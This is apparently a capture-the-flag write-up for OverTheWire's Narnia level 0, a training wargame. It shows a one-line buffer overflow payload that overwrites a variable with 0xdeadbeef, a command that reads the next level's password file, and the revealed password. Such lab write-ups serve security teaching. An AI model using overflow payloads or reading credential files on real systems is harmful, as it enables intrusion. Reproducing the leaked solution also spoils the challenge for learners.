 ### Narnia Level 0

[narnia0](http://overthewire.org/wargames/narnia/narnia0.html)

**Username**: *narnia0*

**Password**: *narnia0*

#### Solution
```bash
(python -c'print "A"*20 + "\xef\xbe\xad\xde"';cat) | ./narnia0
cat /etc/narnia_pass/narnia1
```

#### Credentials for Level 1

**Username**: *narnia1*

**Password**: *efeidiedae*
